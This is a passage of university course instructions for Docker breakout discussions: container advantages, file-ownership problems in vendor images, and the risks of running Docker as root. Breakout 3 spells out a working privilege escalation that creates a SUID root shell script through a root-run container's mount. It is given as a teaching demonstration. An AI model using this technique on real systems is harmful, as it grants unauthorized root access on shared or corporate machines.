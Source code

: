# Moved to bCourses - all of the content in this page has been moved to bCourses, and as of April 15, 2022, is no longer being updated.  Please use bCourses for the most recent, up to date version. This repo will be deleted once we are sure we have moved everything to bCourses correctly.

# Instructions for Breakouts for Week 04

Several breakouts are provided each week. Generally there won't be time to get to all of them. Instructors will select which ones and in what order they would like to use for their class each week. Instructors may choose to do some breakouts at the whole class level instead of using breakout rooms. For breakouts that we don't get to in class, that you are interested in, you can always come to office hours and discuss with the instructor or TA.

## Breakout 1 - Containers: the Good

Make a list and discuss the advantages of using containers: 

* Include microservices and images in your discussion.

* Include some examples of business cases / use cases.  Try to include a specific example that we haven't covered.

## Breakout 2 - Containers: the Bad

One major advantage of using containers is that we can leverage vendor container images to save us numerous hours of installation and setup work.

The bad side to this is that a lot of vendor products were designed long before containers were invented, or were designed by people lacking knowledge of containers, or were designed by people lacking a fundamental knowledge of Linux best practices, cybersecurity, etc.  

A lot of well known vendors have containers that have a lot of really bad decisions in them that cause major Linux issues, cybersecurity issues, etc.

A lot of times, a container is viewed as a "nice to have" and an afterthought rather than a fundamentally designed part of the product.  Often, on official images, I see comments like "Sorry about that, I'm an intern on my second week, and I've never used Docker before".   This seems incongruent with the way shops are pushing containers.  

Let's look at and discuss one common major bad decision:  ownership and permissions of files and directories used in remote mounts to containers.

Recall from one of this week's labs, "Lab: Docker - Persistence, Directory Mounting to Containers", that we have remote mounts to pass data to and from containers in the form of directories and files.  A lot of vendor products require files and directories to be owned by specific users and specific groups with specific permissions set.  If you change the ownership or permissions, the product may stop working outright, or parts of the product may not work, or part of the product may not work correctly.  So, we are stuck with using them.

Our directory /home/w205 is owned by w205 with group mids.  Linux best practices dictates that no file under /home/w205 should be owned by anything than w205 with group mids.  When running backups, we have already seen the major issues and security issues this causes.  We have to have access to sudo just to backup files.  When it's our machine, it's ok for us to have sudo access, however, in a production environment, it would be 100% unacceptable to grant every user who runs these images sudo access.

Several containers have these issues. 

Let's look at postgres.

The commands:
```
cd ~/docker/mounts/postgres

ls -l 
```
yields output:
```
drwxrw---- 19 libstoragemgmt root 4096 Jan 17 12:02 data
```

Discuss the following:
* Did postgres choose the user libstoragemgmt to own the files?
* What are the consequences to the user libstoragemgmt of the VM?
* Why is root the group?

Let's look at neo4j:

The commands:
```
cd ~/docker/mounts/neo4j

ls -l
```
yields output:
```
drwxrwxr-x 5 7474 7474 55 Nov 17 21:01 data
```

Discuss the following:
* Why is 7474 listed as the owner?
* Why is 7474 listed as the group?
* What would be the consequences if the VM has a user with id 7474?
* What would be the consequences if the VM has a group with id 7474?

## Breakout 3 - Containers: the Ugly

In the world of hacking, getting a "root shell" to a Linux box is the "Holy Grail".  Once hackers have a root shell, they have full access to the machine.  If SSH private keys are present on the server, they can use those private keys to gain access to even more servers, and so forth.  

When Docker is running as root, anyone who can run a Docker container, or access a Docker container, can easily get a root shell.  Here is the procedure:

Create a temporary directory:
```
cd

mkdir temp_root_shell

cd temp_root_shell
```
Run a docker container with the directory mounted:
```
docker run -it --rm -v /home/w205/temp_root_shell:/temp_root_shell continuumio/anaconda3:latest bash
```
You are now inside the container. Run the following and exit the container:
```
cd /temp_root_shell

echo \#\!/usr/bin/bash >root_shell.bash

echo sudo bash >>root_shell.bash

chmod 4777 root_shell.bash

exit
```
Back in the VM, we can see that the SUID (user + special) permission is set.  Notice the s in the usual place of the x.  This tells Linux to execute the process as the owner instead of the user.  In our case the user is w205 and the owner is root.  So the bash shell script root_shell.bash will give us a root shell!
```
ls -l 
```
which yields
```
-rwsrwxrwx 1 root root 21 Jan 24 19:32 root_shell.bash
```
Now we can run the script:
```
./root_shell.bash
```
Which yields a root shell:
```
[root@ip-172-31-71-148 temp_root_shell]#
```
We can verify user is indeed root:
```
whoami
```
Which yield 
```
root
```
Exit the root shell:
```
exit
```
Delete the temporary directory when we are done:
```
cd

rm -r temp_root_shell
```

What can we conclude about running Docker as root?
* Consider the case where we own the VM, such as our VM for w205, where we already have root access
* Consider the case of a corporate environment, where the VM is owned by an admin, and we should not have root access

Most vendor supplied images assume Docker will be run as root, and they will not run, or will not run correctly otherwise.  If we attempt to run Docker not as root, what would be the consequences?


## Breakout 4 - Review and discuss the Dockerfiles for container images used in this course

In the labs, we walked through the Dockerfiles for container images.  Review the Dockerfiles again and discuss them.

ucb_mids_w205_repo => labs => week_04 => lab_instructions_04.md

Scroll down to the section Lab: Docker - Creating an Image

## Breakout 5 - Review and discuss the documentation and Dockerfiles for the official images used in this course

In the labs, we walked through the documentation and Dockefiles for the official images used to build the custom container images used in this course.  Review the documentation and Dockefiles again and discuss them.

ucb_mids_w205_repo => labs => week_04 => lab_instructions_04.md

Scroll down to the section Lab: Lab: Docker - Examples of How Various Official Images are Built
